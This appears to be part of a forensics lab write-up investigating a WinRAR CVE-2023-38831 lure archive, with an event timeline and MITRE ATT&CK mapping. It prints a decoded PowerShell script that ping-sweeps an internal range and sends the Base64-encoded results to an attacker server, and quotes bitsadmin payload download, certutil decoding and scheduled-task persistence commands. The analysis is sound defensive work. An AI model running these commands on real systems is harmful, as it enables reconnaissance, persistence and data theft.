

After reversing and Base64-decoding the payload, the real PowerShell code became visible:

```powershell
$startIP = "192.168.1.1"
$endIP = "192.168.1.99"
$outputFile = "$env:UserProfile\AppData\Local\Temp\BL4356.txt"

$start = [System.Net.IPAddress]::Parse($startIP).GetAddressBytes()[3]
$end = [System.Net.IPAddress]::Parse($endIP).GetAddressBytes()[3]

for ($current = $start; $current -le $end; $current++) {
    $currentIP = "$($startIP.Substring(0, $startIP.LastIndexOf('.') + 1))$current"
    $result = Test-Connection -ComputerName $currentIP -Count 1 -ErrorAction SilentlyContinue

    if ($result -ne $null) {
        Write-Host "Host $currentIP is online."
        "Host $currentIP is online." | Out-File -Append -FilePath $outputFile
    } else {
        Write-Host "Host $currentIP is offline."
        "Host $currentIP is offline." | Out-File -Append -FilePath $outputFile
    }
}

Write-Host "Scan results saved to $outputFile"
$var = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes($outputFile))
Invoke-WebRequest -Uri "http://192.168.1.5:8000/$var" -Method GET
```

The decoded script revealed that the attacker performed internal network reconnaissance by scanning hosts from:

```text
192.168.1.1
```

to:

```text
192.168.1.99
```

For each IP address, the script used `Test-Connection`, which is PowerShell's equivalent of a ping check, to determine whether the host was online or offline.

The important line for this question was:

```powershell
$outputFile = "$env:UserProfile\AppData\Local\Temp\BL4356.txt"
```

This showed that the collected scan results were written to a file named `BL4356.txt` under the current user's local temporary directory. Since the script was executed under the `Administrator` profile, `$env:UserProfile` expanded to:

```text
C:\Users\Administrator
```

Therefore, the full path of the file storing the collected data was:

```text
C:\Users\Administrator\AppData\Local\Temp\BL4356.txt
```

The final part of the script also showed the attacker's exfiltration strategy:

```powershell
$var = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes($outputFile))
Invoke-WebRequest -Uri "http://192.168.1.5:8000/$var" -Method GET
```

This reads the contents of `BL4356.txt`, Base64-encodes the file data, stores it in `$var`, and sends it to the attacker-controlled web server at `192.168.1.5:8000` through an HTTP GET request. That means `BL4356.txt` was the staging file for collected reconnaissance data before exfiltration.

## Investigation Timeline

| UTC Timestamp | Event | Evidence | Why It Matters |
|---|---|---|---|
| `2024-02-03 07:33:20` | The suspicious archive `SANS SEC401.rar` first appeared in the Telegram download folder. | FTK Imager file metadata for `C:\Users\Administrator\Downloads\Telegram Desktop\SANS SEC401.rar`. | This marks the earliest confirmed point of malicious file delivery. |
| After download | The archive contents revealed the deceptive pair `SANS SEC401.pdf` and `SANS SEC401.pdf .cmd`. | Archive listing and VirusTotal tags including `cve-2023-38831`. | This connected the lure document to the WinRAR exploitation technique. |
| After archive execution | The malicious `.cmd` script staged payload activity in `C:\Windows\Temp`. | Deobfuscated batch commands: `cd C:\Windows\Temp`, `certutil -decode`, and PowerShell execution. | This showed how the attacker moved from the initial archive into staged script execution. |
| After archive execution | The second-stage payload was downloaded from `http://172.18.35.10:8000/amanwhogetsnorest.jpg`. | `bitsadmin /transfer Nothing /download /priority normal ...` in the deobfuscated script. | This identified the attacker's second-stage delivery URL. |
| After second-stage setup | A scheduled task named `whoisthebaba` was created to run `C:\Windows\Temp\run.bat` every 3 minutes. | `schtasks /create /sc minute /mo 3 /tn "whoisthebaba" /tr C:\Windows\Temp\run.bat /RL HIGHEST`. | This was the persistence mechanism used to repeatedly execute the attacker's payload. |
| `2024-02-03 07:38:01.124150Z` | `Eventlogs.ps1` execution was recorded in the PowerShell event log. | `Windows PowerShell.evtx`, Record 56, Event ID 403, `HostApplication=powershell -NOP -EP Bypass C:\Windows\Temp\Eventlogs.ps1`. | This timestamp confirms when the event-log tampering script ran. |
| `2024-02-03 07:39:31.002150Z` | `run.ps1` execution was recorded in the PowerShell event log. | `Windows PowerShell.evtx`, Record 57, Event ID 403, `HostApplication=powershell -c C:\Windows\Temp\run.ps1`. | This ties the follow-on PowerShell payload to observed system activity. |
| `2024-02-03 07:40:00.972284Z` | Another PowerShell session for `run.ps1` started shortly after persistence was configured. | `Windows PowerShell.evtx`, Record 64, Event ID 400, `HostApplication=powershell -c C:\Windows\Temp\run.ps1`. | This supports the scheduled-task behavior and repeated execution pattern. |
| During `run.ps1` execution | The attacker scanned `192.168.1.1` through `192.168.1.99` and wrote results to `BL4356.txt`. | Decoded PowerShell: `Test-Connection` loop and `$outputFile = "$env:UserProfile\AppData\Local\Temp\BL4356.txt"`. | This revealed internal reconnaissance and the staging location for collected data. |
| During exfiltration preparation | The contents of `BL4356.txt` were Base64-encoded and sent to `http://192.168.1.5:8000/$var`. | Decoded PowerShell: `ReadAllBytes($outputFile)` and `Invoke-WebRequest -Uri "http://192.168.1.5:8000/$var" -Method GET`. | This showed the attacker's data exfiltration strategy. |

## MITRE ATT&CK and CVE Mapping

| Finding | MITRE ATT&CK Mapping | CVE / Indicator | Evidence From This Case |
|---|---|---|---|
| User opened a malicious archive containing a disguised command script. | `T1204.002` - User Execution: Malicious File | `CVE-2023-38831` | `SANS SEC401.rar` contained `SANS SEC401.pdf` and `SANS SEC401.pdf .cmd`. |
| WinRAR archive behavior led to execution of the attacker-controlled `.cmd` payload. | `T1203` - Exploitation for Client Execution | `CVE-2023-38831`, WinRAR versions before `6.23` | The archive naming pattern matched the known WinRAR exploit behavior. |
| Batch variables and substring expansion hid the real commands. | `T1027` - Obfuscated Files or Information | Obfuscated `.cmd` payload | The script reconstructed commands with `%VAR:~start,length%` syntax. |
| The script decoded the downloaded `amanwhogetsnorest.jpg` into `normal.zip`. | `T1140` - Deobfuscate/Decode Files or Information | `certutil -decode amanwhogetsnorest.jpg normal.zip` | The second-stage payload used a fake image extension and was decoded locally. |
| The attacker downloaded a second-stage payload with BITSAdmin. | `T1197` - BITS Jobs; `T1105` - Ingress Tool Transfer | `http://172.18.35.10:8000/amanwhogetsnorest.jpg` | `bitsadmin /transfer Nothing /download /priority normal ...`. |
| PowerShell was executed with profile loading disabled and execution policy bypassed. | `T1059.001` - Command and Scripting Interpreter: PowerShell | `powershell -NOP -EP Bypass` | `Eventlogs.ps1` and follow-on scripts were executed through PowerShell. |
| A scheduled task was created for persistence. | `T1053.005` - Scheduled Task/Job: Scheduled Task | Task name `whoisthebaba` | `schtasks /create /sc minute /mo 3 /tn "whoisthebaba" /tr C:\Windows\Temp\run.bat /RL HIGHEST`. |
| The attacker attempted to tamper with or impair event logging. | `T1562.002` - Impair Defenses: Disable Windows Event Logging | `Eventlogs.ps1` | PowerShell executed `C:\Windows\Temp\Eventlogs.ps1` with execution policy bypass. |
| The PowerShell payload scanned internal hosts. | `T1018` - Remote System Discovery | `192.168.1.1` through `192.168.1.99` | Decoded `run.ps1` used `Test-Connection` in a loop. |
| Reconnaissance results were staged in a local temp file. | `T1005` - Data from Local System | `C:\Users\Administrator\AppData\Local\Temp\BL4356.txt` | Decoded `run.ps1` wrote online/offline host results to `BL4356.txt`. |
| Data was Base64-encoded and sent over HTTP. | `T1041` - Exfiltration Over C2 Channel; `T1071.001` - Application Layer Protocol: Web Protocols | `http://192.168.1.5:8000/$var` | `Invoke-WebRequest` sent the encoded file contents through an HTTP GET request. |
